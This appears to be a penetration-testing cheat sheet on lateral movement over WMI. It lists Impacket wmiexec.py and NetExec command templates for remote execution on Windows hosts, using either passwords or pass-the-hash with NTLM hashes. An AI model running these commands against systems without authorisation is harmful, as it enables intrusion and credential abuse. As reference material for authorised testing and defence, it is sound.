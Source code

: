 # Unix Shell

## 01 - Impacket

Authenticate via impacket script with WMIExec

```
$ wmiexec.py <username>:<password>@<IP> [-codecs <codec>]
```

Pass the Hash

```
$ wmiexec.py <username>@<IP> -hashes <ntlm_hash> [-codecs <codec>]

$ wmiexec.py [<domain>/]<username>@<IP> -hashes aad3b435b51404eeaa3b435b51404ee:<nt_hash> [-codecs <codec>]

$ wmiexec.py [<domain>/]<username>@<IP> -hashes :<nt_hash> [-codecs <codec>]
```

## 02 - NetExec

```
$ netexec smb <IP>/<CIDR> --exec-method wmiexec -u "<username>" -p "<password>" [-d <domain> | --local-auth]
```

Pass the Hash

```
$ netexec smb <IP>/<CIDR> --exec-method wmiexec -u "<username>" -H "<nt_hash>" [-d <domain> | --local-auth]
```

---
## References

### evilcomrade

- [evilcomrade: Windows Lateral Movement Fu](https://1evilcomrade.blogspot.com/2017/11/windows-lateral-movement-fu.html)

### Mandiant

- [Mandiant: Windows Management Instrumentation](https://www.mandiant.com/sites/default/files/2021-09/wp-windows-management-instrumentation.pdf)